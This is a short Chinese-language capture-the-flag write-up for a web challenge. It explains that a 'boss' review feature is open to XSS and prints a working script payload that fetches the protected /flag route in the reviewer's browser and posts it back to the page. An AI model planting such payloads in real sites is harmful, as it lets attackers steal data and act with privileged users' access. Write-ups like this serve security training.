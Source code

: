 # 解题步骤（WriteUp）


![[Pasted image 20241029114729.png]]

输入任意用户名密码开一个新的list

同时发现`/flag`路由，只有boss能访问

有boss审核功能，猜测存在XSS

尝试发现机子不出网，直接向list页面post信息，获取flag

```js
<script>
        var url = document.location.href;
        fetch("http://127.0.0.1:5000/flag").then(resp => resp.text()).then((flag) => {
            var xhr = new XMLHttpRequest();
            xhr.open("POST", url, true);
            xhr.setRequestHeader("Content-Type", "application/x-www-form-urlencoded");
            xhr.send("content=" + flag);
        });
</script>

```

![[Pasted image 20241029114758.png]]
